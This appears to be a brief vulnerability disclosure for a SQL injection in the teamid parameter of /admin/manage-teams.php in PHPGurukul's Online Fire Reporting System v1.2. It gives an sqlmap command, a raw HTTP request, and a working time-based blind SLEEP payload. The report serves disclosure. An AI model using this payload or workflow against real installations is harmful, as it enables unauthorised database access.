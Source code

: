 

# SQLi vulnerability in Online Fire Reporting System v1.2 of file /admin/manage-teams.php

**vender**:

- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /admin/manage-teams.php

**Version**

- V1.2

### POC

```
sqlmap -r request.txt --level 5 --batch
```



```
GET /admin/manage-teams.php?teamid=100 HTTP/1.1
Host: www.firereport.top
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0, i
```



```
---
Parameter: teamid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: teamid=100'+(SELECT 0x47776c66 WHERE 8457=8457 AND (SELECT 2414 FROM (SELECT(SLEEP(5)))QMWA))+'
---
```

